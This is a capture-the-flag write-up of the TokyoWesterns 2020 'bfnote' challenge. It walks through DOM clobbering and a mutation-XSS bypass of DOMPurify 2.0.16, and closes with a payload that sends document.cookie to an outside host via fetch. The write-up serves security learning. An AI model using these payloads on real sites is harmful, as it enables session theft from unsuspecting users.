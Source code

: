 TokyoWesterns 2020 is over and was awesome.
Many amazing challenges of all kind, in this write up I will explain how we (Magnum) solved "bfnote", a well-written web challenge.
Spoiler - it was not the intended solution ;)

# BFNOTE

### Problem

Share your best Brainf*ck code at [bfnote](https://bfnote.chal.ctf.westerns.tokyo/)

Browsing the page presents us with a nice <textarea> and a submit button.
After posting a note we are being redirected to the page that presentes the note itself with a nice "report" button.
An XSS challenge with a Brainf*ck twist, that should be fun . . .

We quickly check the sources of these pages, giving us a little more information about what's going on...

1. /js/bf.js
2. /index.php?source

---

### <u>/js/bf.js</u>

---

A neat Javascript that is responsible of decoding and interpreting the Brainf*ck note.

```javascript
let program, pc, buf, p;
let statusCode = 0; // 0: not running, 1: running, 2: exit successfully, 3: exit with an error
let output = '';
let steps = 0;
const maxSteps = 1000000;

function checkStep() {
  steps++;
  if (steps > maxSteps) {
    throw new Error('maximum steps exceeded')
  }
}

function pinc() {
  p++;
}

function pdec() {
  p--;
}

function inc() {
  buf[p]++;
}

function dec() {
  buf[p]--;
}

function putc() {
  output += String.fromCharCode(buf[p]);
}

function getc() {
  console.err('not implemented');
}

function lbegin() {
  if (buf[p] === 0) {
    let i = pc+1;
    let depth = 1;
    while (i < program.length) {
      if (program[i] === '[') {
        depth++;
      }
      if (program[i] === ']') {
        depth--;
        if (depth === 0) {
          break;
        }
      }

      i++;
      checkStep();
    }

    if (depth === 0) {
      pc = i;
    }
    else {
      throw new Error('parenthesis mismatch')
    }
  }
}

function lend() {
  if (buf[p] !== 0) {
    let i = pc-1;
    let depth = 1;
    while (0 <= i) {
      if (program[i] === ']') {
        depth++;
      }
      if (program[i] === '[') {
        depth--;
        if (depth === 0) {
          break;
        }
      }

      i--;
      checkStep();
    }

    if (depth === 0) {
      pc = i;
    }
    else {
      throw new Error('parenthesis mismatch')
    }
  }
}

function writeOutput() {
  if (statusCode !== 3) {
    if (CONFIG.unsafeRender) {
      document.getElementById('output').innerHTML = output;
    } else {
      document.getElementById('output').innerText = output;
    }
  }
}

function initProgram() {
  // load program
  program = document.getElementById('program').innerText;
  document.getElementById('program').innerHTML = DOMPurify.sanitize(program).toString();

  // initialize
  pc = 0;
  buf = new Uint8Array(30000);
  p = 0;

  statusCode = 0;
}

function runProgram() {
  statusCode = 1;
  try {
    while (pc < program.length) {
      switch (program[pc]) {
        case '>':
          pinc();
          break;
        case '<':
          pdec();
          break;
        case '+':
          inc();
          break;
        case '-':
          dec();
          break;
        case '.':
          putc();
          break;
        case ',':
          getc(); // not implemented
          break;
        case '[':
          lbegin();
          break;
        case ']':
          lend();
          break;
        case '=':
          console.log('=)');
          break;
        case '/':
          console.log(':/');
          break;
        case ' ':
          break;
        default:
          throw new Error(`invalid op: ${program[pc]}`)
      }
  
      pc++;
      checkStep();
    }

    CONFIG = window.CONFIG || {
      unsafeRender: false
    };

    statusCode = 2;
  }
  catch {
    statusCode = 3;
    return;
  }
  // no xss please
  output = output.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
  writeOutput();
}

window.addEventListener('DOMContentLoaded', function() {
  initProgram();
  runProgram();
});
```

A few things we thought are worth mentioning:

- initProgram takes our (escaped) note (using `innerText` thus making it unescaped) and passes it through `DOMPrufiy.sanitize`, which **should** make it impossible to inject any malicious tag that results in javascript execution.
- If runProgram catches an exception while parsing the note - it **will not** write the output to the page.
- Before calling `writeOutput()`, every `<, >` will be escaped.
- if window.CONFIG is present, and it's unsafeRender member **evaluates to true** - the output will be appended to the page using `innerHTML` instead of `innerText`.
  First thing that comes to mind is obviously - **`Dom Clobbering Attack`**.

I will not go over the rules of Brainf\*ck, but I will note that this javascript interpreter will throw an exception if an illegel Brainf\*ck character is in the note, **unless** it is inside a Brainf\*ck loop (surrounded by `[]`).

To make things easier, we wrote a little Python script that encodes a given string as a Brainf\*ck script:

```python
def encode(string):
	p = 0
	output = ''
	for i in string:
		output += p * "-"
		output += ord(i) * "+" + "."
		p = ord(i)
	return output
```

That was the easiest way doing it, but hardly the most efficient way ;)

---

### /<u>index.php</u>

---

```php
<?php
require 'config.php';

header('X-Frame-Options: DENY');

$action = $_SERVER['REQUEST_METHOD'];

$db = new SQLite3('/tmp/db.sqlite3');
$db->exec('create table if not exists notes (id text, content text)');

if ($action === 'POST') {
  $content = $_POST['content'];
  $id = bin2hex(random_bytes(8));

  $content = preg_replace('/[^a-zA-Z0-9<>\[\]+-.,=\/\n\ ]/', '', $content);
  $content = str_replace('<', '&lt;', $content);
  $content = str_replace('>', '&gt;', $content);

  $stmt = $db->prepare('insert into notes values (:id, :content)');
  $stmt->bindValue(':id', $id, SQLITE3_TEXT);
  $stmt->bindValue(':content', $content, SQLITE3_TEXT);
  $stmt->execute();

  header("Location: /?id=${id}");
} else if ($action === 'GET') {
  if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    exit();
  }

  if (!empty($_GET['id'])) {
    $id = $_GET['id'];
  
    $stmt = $db->prepare('select content from notes where id=:id');
    $stmt->bindValue(':id', $id, SQLITE3_TEXT);
    $res = $stmt->execute()->fetchArray(SQLITE3_ASSOC);

    if (empty($res)) {
      header('Location: /');
    }
  
    $content = $res['content'];
  }
}
?>
<!doctype html>
<html>
  <head>
    <title>bfnote</title>
<?php
  if (!empty($_GET['id'])) {
?>
    <script src="/js/bf.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.16/purify.min.js"></script>
    <script src="https://www.google.com/recaptcha/api.js"></script>
<?php
  }
?>
  </head>
  <body>
<?php
  if (empty($_GET['id'])) {
?>
    <!-- <a href="/?source">source</a> -->
    <form action="." method="post">
      <textarea name="content"></textarea>
      <input type="submit" value="share!"></input>
    </form>
<?php
  } else {
?>
    <script>
      function onSubmit(token) {
        fetch(`/report.php`, {
          method: 'post',
          headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
          },
          body: `id=<?=$id?>&token=${token}`,
        }).then(r => r.json()).then(d => {
          if (d['success']) {
            alert('successfully shared');
          }
          else {
            alert(`error: ${d['msg']}`);
          }
        })
      }
    </script>
    <div id="program"><?=$content?></div>
    <div id="output"></div>
    <form id="share">
      <button class="g-recaptcha" data-sitekey="<?=$SITE_KEY?>" data-callback="onSubmit">report</button>
    </form>
<?php
  }
?>
  </body>
</html> 
```

Going over the sources, it was clear that SQLi was not the way to go for this one.
That's nice, we understand a a little bit more about what's going on.
After inspecting this file, a few leads came to mind that I thought should be mentioned here.

- `/js/bf.js` is loaded **before** `purify.min.js` creating a possible undefined behavior.
- There is no `exit()` after setting the `Location` header, the body is sent along with the redirect response.
  We also noticed that there is a Javascript injection in the response if we set `?id` to a malicious payload.
  This is unfortunately not exploitable as the browser does not render the response's body if a `302` status is sent from the server.
- Using HPP, we can set `content` to an array, causing a weird behavior which is also not exploitable.

---

## Mutating HTML

Pretty quick we managed to get the `DOM Clobbering` working so we can trigger the `innerHTML` flow.

```html
<form id="CONFIG"><input type="text" id="unsafeRender"></input></form>
```

The main problem now is `DOMPurify.sanitize`, it pretty much prevents us from doing anything other than that clobbering attack...

Quick search about `DOMPurify` vulnerabilities and exploits brings up this article:

- https://research.securitum.com/dompurify-bypass-using-mxss/

This is a very interesting idea, trying the suggested payload gives us something interesting:

```html
<!-- payload -->
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">

<!-- DOMPurify.sanitize's output -->
<div id="program">
    <svg></svg>
    <p></p>
    <style><a id=</style>
    <img src="1">
    &gt;
</div>
```

Sadly, not XSS for us **BUT** there is a new <style> element in the page now! Trying to simply post a <style></style> note results in an empty output from `sanitize`, so, is it interesting? Consider the next payload:

```html
<svg></p><style id=output><a id="</style><img src=1 onerror=alert(1)>">
```

Posting this payload will result in a new <style> element with the `id` "output"!
The first slightly interesting thing we managed to get - **CSS Injection**

```html
[<svg></p><style id=output><a id="</style><img src=1 onerror=alert(1)>">]
```

Followed by the output of:

```python
print encode("html{background-color: blue}")
```

Nice, if only the flag was an attribute of an element on the page, we could leak it!

## The solution

At this point, we decided to look a little more into `DOMPurify`, visiting the project's Git page!
Interestingly enough, `bfnote` uses `/dompurify/2.0.16/purify.min.js` and the official git page lists **`2.0.17`** as the Latest release!

Let's have a look at the changelog!
https://github.com/cure53/DOMPurify/compare/2.0.16...2.0.17

Specifically:
https://github.com/cure53/DOMPurify/compare/2.0.16...2.0.17#diff-f44bc3a1bfaa31000b8f4f1359dba82a

Hmm... seems like the library is not perfect just yet, and that the version used in this challenge is still vulnerable to some mXSS!
Finally, we craft a neat payload that successfully appends a tag with malicious attributes!

```html
<math><mtext><table><mglyph><style><div><img src=x onerror=tttt>CLICKME</div>
<!-- DOMPurify.sanitize's output -->
<div id="program">
    <math>
        <mtext>
            <mglyph>
                <style></style>
            </mglyph>
            <div>
                <img src="x" onerror="tttt">CLICKME
            </div>
            <table></table>
    </mtext>
    </math>
</div>
```

Quickly checking the browser's console: `Uncaught ReferenceError: tttt is not defined`
Wohoo! From this point it was simply putting it all together to get it over the line:

```html
[<math><mtext><table><mglyph><style><div><img src=x onerror=share.outerHTML+=window.output.innerText>CLICKME</div>][<form id="CONFIG"><input type="text" id="unsafeRender"></input></form>]
```

Followed by the output of:

```python
print encode("<img src=x onerror='fetch(\"magnumctf.com/\" + btoa(document.cookie))'>")
```

And there you have it: **`flag=TWCTF{reCAPTCHA_Oriented_Programming_with_XSS!}`**
reCaptcha what? HUH? oops...
